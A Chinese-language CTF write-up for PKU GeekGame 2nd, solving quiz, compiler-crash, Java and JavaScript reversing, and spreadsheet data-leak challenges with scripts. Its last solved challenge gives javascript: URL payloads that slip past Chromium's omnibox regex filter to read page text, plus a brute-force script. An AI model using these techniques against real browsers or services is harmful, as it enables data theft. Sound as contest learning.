# Geekgame 2nd WriteUp by kxxt

您可以在 http://www.kxxt.dev/blog/geekgame-2nd-writeup/ 获得更好的阅读体验。

关于 编原译理习题课 · 实验班 第一部分，我还写了一篇英文博客，欢迎围观：http://www.kxxt.dev/blog/safe-rust-code-that-segfaults/

## †签到†

用 Firefox 打开 PDF 文件， 按<kbd>Ctrl</kbd> + <kbd>A</kbd> 全选，复制粘贴到 VSCode 里，然后按蛇形顺序把 flag 读出来就行。

```
别急 别急
WELCOME ABOARD,
ALL PLAYERS! GO TO
GEEKGAME.PKU.EDU.CN
AND SUBMIT THE FLAG:
fa{ecm_oPUGeGmV!
lgWloet_K_ekae2}
```

## 小北问答 · 极速版

我因为没找到 MAC 地址对应的邮编，所以在第一阶段只做出了第一问。不过这是我第一次学习使用 `pwntools` 这类工具，我感觉有必要记录一下。

先来分析一下各个题的答案吧：

> 第 1 题：每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？
>
> 答案格式：^[a-z.]+$

通过 Google 搜索找到[官网](https://pku-runner.github.io/)，下载下来之后丢给 VSCode 的 [APKLab 插件](https://github.com/APKLab/APKLab)。等待 APKLab 解包、反编译完成后，打开 `AndroidManifest.xml` 就能看到包名 `cn.edu.pku.pkurunner`。

>  第 2 题：北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？
>
> 答案格式：^[\d.]+\/[\d.]+$

[Google 学术搜索 `gStore`](https://scholar.google.com/scholar?hl=en&as_sdt=0%2C5&q=gStore&btnG=), [第一个搜索结果](https://dl.acm.org/doi/abs/10.14778/2002974.2002976)里的 DOI 就是答案

> 第 3 题：访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？
>
> 答案格式：\^[\^:\s]+$

从浏览器里打开这个网址，可以在开发人员工具的网络请求里看到 Host 的值。



> 第 4 题：视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？
>
> 答案格式：^\d+$

Google 一搜，搜到了 [mcfx 大佬的知乎回答](https://www.zhihu.com/question/381784377/answer/1099438784)，直接用就行。

```python
table='fZodR9XQDSUm21yCkr6zBqiveYah8bt4xsWpHnJE7jL5VG3guMTKNPAwcF'
tr={}
for i in range(58):
    tr[table[i]]=i
s=[11,10,3,8,4,6]
xor=177451812
add=8728348608

def dec(x):
    r=0
    for i in range(6):
        r+=tr[x[s[i]]]*58**i
    return (r-add)^xor

def enc(x):
    x=(x^xor)+add
    r=list('BV1  4 1 7  ')
    for i in range(6):
        r[s[i]]=table[x//58**i%58]
    return ''.join(r)

def bilibili(s):
    bv = re.search(r"(BV\w+)\s", s.decode())[0].strip()
    av = str(dec(bv))
    return av
```

> 第 5 题：在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 {i} 级关卡需要多少金钱？
>
> 答案格式：^\d+$

从 GeekGame 1st 的仓库里可以找到这个题目的[服务端源代码](https://github.com/PKU-GeekGame/geekgame-1st/tree/master/src/pygame/game/server)，在 [`libtreasure.py`](https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py) 中能找到以下代码

```python
GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100
```

这行代码计算了第 `level` 关的目标。写个函数来提取出题干中的数字并返回字符串形式的答案（~~不要问我为啥函数名是 `pygayme`~~）：

```python
def pygayme(txt):
    level = int(re.findall(r"(\d+)\s", txt.decode())[1])
    warn(f"level: {level}")
    ans = 300+int(level**1.5)*100
    warn(f"{ans}")
    return str(ans)
```

> 第 6 题：我刚刚在脑海中想了一个介于 {i} 到 {j} 之间的质数。猜猜它是多少？
>
> 答案格式：^\d+$

从网上找了个判素数的函数（懒的自己写）：

```python
def is_prime(number):
    if number > 1:
        for num in range(2, int(number**0.5) + 1):
            if number % num == 0:
                return False
        return True
    return False
```

然后写个函数来自动解题，从符合条件的素数里随便选一个：

```python
def solve_prime(prob):
    strs = re.findall(r"(\d{2,})\s", prob.decode())
    start = int(strs[0])
    end = int(strs[1])
    info(f"{start}, {end}")
    primes = []
    for i in range(start, end + 1):
        if is_prime(i):
            # success(f"Find prime {i}")
            primes.append(i)
    warn(f"Find {len(primes)} primes: {primes}")
    final =  str(choice(primes))
    success(f"Using {final}")
    return final
```

然而猜中的概率太小了。。。。

> 第 7 题：支持 WebP 图片格式的最早 Firefox 版本是多少？
> 
> 答案格式：^\d+$

[Google 搜索 `firefox version supporting webp`](https://www.google.com/search?q=firefox+version+supporting+webp), 点进[第一个搜索结果](https://caniuse.com/webp)，可以发现 Firefox 从 65 版本开始支持 `WebP`.

为了在 3 秒内通过这道题，我用 `pwntools` 写了个脚本(上面几个函数我就不在这里重复了)：

我通过检测关键词来找到题目对应的答案/解题函数，如果遇到未知问题，直接发送换行来跳过该问题。

```python
ans = {
    'DOI': '10.14778/2002974.2002976',
    'Runner': 'cn.edu.pku.pkurunner',
    'WebP': '65',
    'Host': 'ctf.xn--4gqwbu44czhc7w9a66k.com',
    '质数': solve_prime,
    'MAC': sys.argv[1],
    "电子游戏概": pygayme,
    "bilibili": bilibili,
}
conn = remote('prob01.geekgame.pku.edu.cn', 10001)
print(conn.recvuntil(b':').decode())
conn.sendline(b'你的 TOKEN')
print(conn.recvuntil('>'.encode()).decode())
conn.sendline("急急急".encode(encoding='utf-8'))
print(conn.recvline().decode())
print(conn.recvline().decode())

for i in range(7):
    prob = conn.recvuntil(b'>')
    info(prob.decode())
    result = ''
    for (k, ansv) in ans.items():
        if k.encode() in prob:
            result = ansv if isinstance(ansv, str) else ansv(prob)
            conn.sendline(result.encode())
            break
    else:
        warn("Unknown problem")
        conn.sendline()
    resp = conn.recvuntil('。'.encode()).decode()
    warn(resp)

print(conn.recvall().decode())
```

最后我的最高的分是 `86` 分。虽然理论上在素数猜对且没有出现邮编那道题的情况下，这个脚本可以拿到 100 分。但是遗憾的是我运气太差了，并没有在第一阶段试出来。

根据第二阶段放出的提示， Google 搜索 `695 Hawthorn Ave, Boulder, CO ` 就能查到邮编： 80304。

## 编原译理习题课

### 编译出的程序超过 8MB

用内联汇编设置一下对齐就可以。一行 C++ 代码的事。（main 函数的返回类型。。。不写也罢。。。g++ 会抱怨一句，但是我们省下了四个字符呀!）

```c++
asm(".align 8388608");main(){}
```

编译出来会得到 17MB 的可执行文件。

### 输出的报错信息超过 2MB

Google 搜了一下，找到了[这个 Stackoverflow 问题](https://stackoverflow.com/questions/54004610/why-does-g-generate-huge-error-log)。把代码里的 `(x` 再多重复几次，报错就超过 2M 了。（当然，main 函数的返回类型又被我吃了）

```c++
main(){struct x struct z<x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(y,x(y><y*,x(y*w>v<y*,w,x{};}
```

得到的 flag 是 `flag{short Volatile program; long LonG messagE;}`。 flag 里提到了 `volatile`, 不知道我这个是不是预期解。

### 因为段错误而崩溃

这个就没有前两问那么简单了。我 Google 搜了一圈，没找到有效的方法触发 g++ 的段错误。



我尝试[在 GCC 的 Bugzilla 上加一大堆搜索条件来搜索 `Segmentation Fault `](https://gcc.gnu.org/bugzilla/buglist.cgi?bug_status=NEW&bug_status=ASSIGNED&bug_status=SUSPENDED&bug_status=WAITING&bug_status=REOPENED&cf_known_to_fail_type=allwords&cf_known_to_work_type=allwords&component=c%2B%2B&product=gcc&query_format=advanced&short_desc=Segmentation%20fault&short_desc_type=allwordssubstr). 翻了很多结果之后找到了一个仍然有效的方法（或者说，g++ 里仍然存在的 bug）：https://gcc.gnu.org/bugzilla/show_bug.cgi?id=100019

```c++
void f(auto... args) {
  [] {
    try {} catch (decltype(args)) {}
  };
}

main() {
  f(0);
}
```

## Flag Checker

呵。Jvav。我用系统装的 `openjdk` 19.0.1 运行它，它果然报错了。于是为了它，我出卖了我宝贵的磁盘空间，装了一个 `openjdk` 11.0.17, 再次运行，没有报错。

### Flag1

用一个在线 java 反编译器反编译了一下 jar，我们可以观察到 flag1 的按钮事件处理代码中的核心逻辑：

```java
byte[] i = this.textField1.getText().getBytes("UTF-8");
String var7 = rot13(Base64.getEncoder().encodeToString(i));
if ("MzkuM8gmZJ6jZJ HgnaMuqy4lMKM4".equals(var7)) {
    JOptionPane.showMessageDialog((Component)null, "Correct");
} else {
    JOptionPane.showMessageDialog((Component)null, "Wrong");
}
```

获得用户输入的 base64 编码，然后用 `rot13` 这个函数进行加密，与既有的密文比对。

观察一下 `rot13`：

```java
static String rot13(String var0) {
    StringBuilder var1 = new StringBuilder();
    for(int i = 0; i < var0.length(); ++i) {
        char var3 = var0.charAt(i);
        if (var3 >= 'a' && var3 <= 'm') {
            var3 = (char)(var3 + 13);
        } else if (var3 >= 'A' && var3 <= 'M') {
            var3 = (char)(var3 + 13);
        } else if (var3 >= 'n' && var3 <= 'z') {
            var3 = (char)(var3 - 13);
        } else if (var3 >= 'N' && var3 <= 'Z') {
            var3 = (char)(var3 - 13);
        } else if (var3 >= '5' && var3 <= '9') {
            var3 = (char)(var3 - 5);
        } else if (var3 >= '0' && var3 <= '4') {
            var3 = (char)(var3 + 5);
        }
        var1.append(var3);
    }
    return var1.toString();
}
```

不难发现 `rot13(rot13(x))==x`, 所以，我们开一个 `jshell`（交互式 java shell）， 把 `rot13` 函数丢进去，然后再把密文丢给 `rot13`, 再进行 base64 解码就能得到  `flag1`.

```sh
$ /usr/lib/jvm/java-11-openjdk/bin/jshell
|  Welcome to JShell -- Version 11.0.17
|  For an introduction type: /help intro
> 把 rot13 贴进来，这里不再重复了
jshell> rot13("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4")
$2 ==> "ZmxhZ3tzMW1wMWUtanZhdl9yZXZ9"

jshell> ^D
$ base64 -d <<<"ZmxhZ3tzMW1wMWUtanZhdl9yZXZ9"  
flag{s1mp1e-jvav_rev}
```

### Flag2

观察一下 flag2 相关的代码：

```java
Geekgame() {
    ScriptEngineManager i = new ScriptEngineManager();
    ScriptEngine var3 = i.getEngineByName("nashorn");
    try {
         String var4 = "一大堆不明所以的字符和 Unicode 转义序列";
         StringBuilder builder = new StringBuilder();
         for(int j = 0; j < var4.length(); ++j) {
            builder.append((char)(var4.charAt(j) ^ 239));
         }
         var3.eval(builder.toString());
    } catch (Exception var7) {
        ...
    }
}
```

呃。脚本引擎。Java 带的脚本引擎。。。。。会用什么脚本语言呢？

算了。先从 jShell 里看看这堆不明所以的字符和 Unicode 转义序列最后变成了什么。

从 jshell 里运行一下，得到了下面的结果：

```js
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

WoC! JvavScript! 谁说 Jvav 和 JvavScript 没有一点关系。Jvav 的脚本语言当然是 JvavScript 辣！

注意，得到的原始代码里是 `JSÏN` 而不是 `JSON`， 我怀疑是 Java 反编译器反编译的时候出现了一些编码问题，我自己手动做了更正。

然后再手动反混淆一下：

```js
function checkflag2(arg) {
  return JSON.stringfy(
    arg.split("").map(function (x) {
      return x.charCodeAt(0);
    })
  ) ==
    JSON.stringify(
      [
        0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0,
        1, 67, 3, 16, 4, 6, 33, 232,
      ].map(function (x) {
        return (checkflag2 + "").charCodeAt(x);
      })
    )
    ? "Correct" : "Wrong";
}

```

呃，它把自己的代码转换成了字符串格式，提取出特定位置的字符，然后比对用户输入。那么我们直接把原始代码的对应位置的字符提取出来就能得到 flag2 了。

```python
idx = [
    0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 
    4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232,
]
with open("orig.js") as f:
    text = f.read()
for id in idx:
    print(text[id], end="")
```

运行一下，得到 flag2: `flag{javascript-obfuscator}`

## 企鹅文档

~~这道题考察电子表格的基本操作~~

企鹅文档，竟然真的是腾讯文档。那么腾讯文档能有什么安全问题呢？

尝试双击机密区域：失败

尝试下载文档：失败

~~尝试联系 xmcp 让他授予我访问权限~~：还没试

那么我们就来检查网络请求吧！

注意到网络请求里有个很显眼的 `opendoc` 请求。



把这个请求里的相关字符拼接起来，得到一个链接：

https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobs

网页显示 `没有这个模板`。

继续翻网络请求，注意到网络请求里有个很显眼的 `sheet` 请求。

我们把它里面的字符也提取出来。



全部拼接完成后，得到 https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next

访问链接，能看到下一步的提示。



把附件给出的 har 文件导入到 Chromium 的开发人员工具里，检查其中的网络请求。

首先看 `opendoc` 请求，尝试访问里面的在线文档链接会发现文档已被删除。

在这个请求里没看到其他有价值的信息。

然后我们研究一下 `sheet` 请求。



从里面能找到一段可疑的数据。`24` 对应的单元格有数据。看一下提示中的图片，不难发现第 24 个格子就是 3 行 C 列的格子，表格一共有 11 列，` 24 // 11 = 2`, `24 % 11 = 3`, 这样我们就能把所有有数据的单元格的坐标算出来。

```python
import json
import numpy as np

with open('data.json') as f:
    dat = json.load(f)
arr = np.zeros((2450, 8), dtype=int)
for i in dat:
    i = int(i)
    row = i // 11
    col = i % 11
    arr[row, col] = 1
np.savetxt("foo.csv", arr, delimiter=",", fmt='%s')
```

我们把这段数据存成 JSON，然后写个 Py 脚本，创建一个倒霉的 Numpy 数组来充当工作表，把有数据的地方置 1， 导出成 CSV。

然后用 OnlyOffice 打开 CSV, 给 数值是 1 的单元格应用条件样式，就能直观地用肉眼读出 flag 了。



## 给钱不要！(信息不漏！！！)

这道题我只做出来了第二问，这有点出乎我的意料，因为通常来说第二问比第一问更难。

根据放出来的提示，我们去找 Chromium 地址栏自动识别的代码。经过一番搜索，找到了 `components/omnibox/browser/autocomplete_input.cc` 这个文件。

在 `AutocompleteInput::Parse` 这个解析输入的函数里，有一段判断用户输入像不像 js 的代码：

```c++
// Treat javascript: scheme queries followed by things that are unlikely to
// be code as UNKNOWN, rather than script to execute (URL).
if (base::EqualsCaseInsensitiveASCII(parsed_scheme_utf8,
                                     url::kJavaScriptScheme) &&
    RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
    return metrics::OmniboxInputType::UNKNOWN;
}
```

那么，根据这个 Irregular Expression， 我们的 JavaScript 代码里面不能出现分号、等号、括号、点号、双引号。

按照常理来说，括号是调用函数时必须要用的。[Google 搜索了一下 `js function call without parentheses`](https://www.google.com/search?q=js+function+call+without+parentenses&oq=js+function+call+without+parentenses)， 点进[第一个来自 StackOverflow 的结果](https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses)，我们能找到一堆不用括号调用函数的方法。

但是能用的好像也就 Tag Function 和 `valueOf` 这两种。我用的 Tag Function。

看一下 [MDN 的文档](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates)，不难发现 Tag Function 是这样调用的

```js
function f(strings, ...exprs) {
    ...
}

f`a${1+2}b${2+4}c`

// 就是

f(["a", "b", "c"], 3, 6)
```

那就可以获取 `.flag` 的文字内容：

```js
document['getElementsByClassName']`flag`[0]['innerText']
```

那么怎么给 `document.title` 赋值呢？

```js
Object.assign(document, {title: "Some text"})
```

可惜这无法写成 tag func 调用的格式。

于是我就想：我们可以检测 flag 的第 i 位是某一个字符，如果是，就把标题清空，如果不是就不改变标题。

把下面的代码里的 `i` 改为要检测的字符的位置，把 `ch` 改为要检测的字符。

```js
javascript:document['getElementsByClassName']`flag`[0]['innerText'][i]['endsWith']`ch`?document['getElementsByTagName']`title`[0]['remove']``:0//
```

然后写个脚本来简化操作

```python
from pwn import *
from sys import argv

token = "ＴＯＫＥＮ"

def gen_payload(i, chr):
    return f"""javascript:document['getElementsByClassName']`flag`[0]['innerText'][{i}]['endsWith']`{chr}`?document['getElementsByTagName']`title`[0]['remove']``:0//"""

def test(i, char):
    conn = remote('prob06.geekgame.pku.edu.cn', 10006)
    conn.recvuntil(b':')
    conn.sendline(token.encode())
    conn.recvuntil(b'>')
    # print().decode())

    payload = gen_payload(i, char)
    info(payload)
    conn.sendline(payload.encode())
    resp = conn.recvuntil(b':)').decode()
    conn.close()
    # info(resp)
    if "梗图网盘" in resp:
        warn(f"Failure! not {char}")
        return False
    else:
        success(f"flag[{i}] is {char}")
        return True

i = int(argv[1])
char = argv[2]
test(i, char)
```

这样我们就能把 flag 逐个字符地读出来了。（就是有点费时间。。。另外检测不了 `;=()."`.

当然，为了获得特殊字符，我们可以这样创建它们：但是我没找到把它传给 `endsWith` 的方法。不过幸好 flag 里面只有一个无法检测的特殊字符 `.`.



运行效果如下：

```sh
[+] Opening connection to prob06.geekgame.pku.edu.cn on port 10006: Done
[*] javascript:document['getElementsByClassName']`flag`[0]['innerText'][1]['endsWith']`l`?document['getElementsByTagName']`title`[0]['remove']``:0//
[*] Closed connection to prob06.geekgame.pku.edu.cn port 10006
[+] flag[1] is l
```

再写个暴力破解脚本, 用于手试试不出来的情形：（重复代码已省略）

```js
from itertools import chain
chars = [chr(x) for x in chain(range(ord('A'), ord('Z') + 1),
         range(ord('a'), ord('z') + 1), range(ord('0'), ord('9') + 1))]
i = int(argv[1])
total = len(chars)
for ch in sorted(chars):
    info(f"Progress: {cnt}/{total}")
    if test(i, ch):
        break
    # info("Sleep for 2 seconds")
    # sleep(2)
    cnt += 1
else:
    warn("All attempts failed!")
```

最后花一晚上时间就能把 flag 读出来辣：

```
flag{chEck-this-out-If-yoU-have-not:crbug.Com/31661}
0000000000111111111122222222223333333333444444444455
0123456789012345678901234567890123456789012345678901
```

然而我在第二天找到了更简单的做法：

`<title>` 元素有个  `append` 方法，我没注意到它能直接接受多个参数。

于是这样就可以了：

```js
javascript:document['getElementsByTagName']`title`[0]['append']`${document['getElementsByClassName']`flag`[0]['innerText']}`//
```



这相当于调用了 `title.append([""], "FLAG 内容")` 。非常的奇妙，竟然能直接 `append` 多个变量进去，我 ^TM^ 感觉我之前白费了几个小时。

第一个 flag 不会拿。我写了段能把标题改成那段文本的 JS , 感觉没有办法把它伪装成 QUERY：

```js
javascript:document['getElementsByTagName']`title`[0]['childNodes'][0]['remove']``,document['getElementsByTagName']`title`[0]['append']`Unsafe${'GIVE-ME-FLAG-1 #'}${String['fromCharCode']`61`}${'_'}${String['fromCharCode']`61`}${' @!+!@ ^~^ '}${String['fromCharCode']`37`}${'[*'}${String['fromCharCode']`46`}${'*]'}${String['fromCharCode']`37`}`,document['getElementsByTagName']`title`[0]['childNodes'][0]['remove']``//
```

看了第二阶段的提示，没想到把 IP 地址伪装成 QUERY 的办法。

## 私有笔记

打开题目，进来就是 CVE 的定义，出题人在明示我们找 CVE。

点进软件版本链接，发现 MediaWiki 的版本是 1.34.4， 有点旧。

